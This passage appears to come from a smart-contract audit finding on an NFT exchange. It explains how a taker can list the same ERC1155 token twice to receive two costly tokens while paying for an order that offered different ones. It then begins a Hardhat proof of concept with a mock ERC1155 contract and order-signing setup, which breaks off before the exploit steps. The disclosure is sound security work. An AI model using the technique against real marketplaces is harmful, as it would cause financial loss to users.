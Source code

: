 and the taker provides

    [
        {
              collection: mock1155Contract1.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
        },
        {
              collection: mock1155Contract1.address,
              tokens: [{ tokenId: 0, numTokens: 1 }]
        }
    ];

The taker can grabs two `mock1155Contract1` tokens by paying the order which tries to sell a `mock1155Contract1` token and a `mock1155Contract2` token. When `mock1155Contract1` is much more expensive, the victim user will suffer from a huge loss.

As for the approving issue, the users may grant the contract unlimited access, or they may have another order which sells `mock1155Contract1` tokens. The attack is easy to perform.

### Proof of Concept

First put the `MockERC1155.sol` under the `contracts/` directory:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity 0.8.14;
import {ERC1155URIStorage} from '@openzeppelin/contracts/token/ERC1155/extensions/ERC1155URIStorage.sol';
import {ERC1155} from '@openzeppelin/contracts/token/ERC1155/ERC1155.sol';
import {Ownable} from '@openzeppelin/contracts/access/Ownable.sol';

contract MockERC1155 is ERC1155URIStorage, Ownable {
  uint256 numMints;

  constructor(string memory uri) ERC1155(uri) {}

  function mint(address to, uint256 id, uint256 amount, bytes memory data) external onlyOwner {
    super._mint(to, id, amount, data);
  }
}
```

And then put `poc.js` under the `test/` directory.

```js
const { expect } = require('chai');
const { ethers, network } = require('hardhat');
const { deployContract, NULL_ADDRESS, nowSeconds } = require('../tasks/utils');
const {
  getCurrentSignedOrderPrice,
  approveERC20,
  grantApprovals,
  signOBOrder
} = require('../helpers/orders');

async function prepare1155OBOrder(user, chainId, signer, order, infinityExchange) {
  // grant approvals
  const approvals = await grantApprovals(user, order, signer, infinityExchange.address);
  if (!approvals) {
    return undefined;
  }

  // sign order
  const signedOBOrder = await signOBOrder(chainId, infinityExchange.address, order, signer);

  const isSigValid = await infinityExchange.verifyOrderSig(signedOBOrder);
```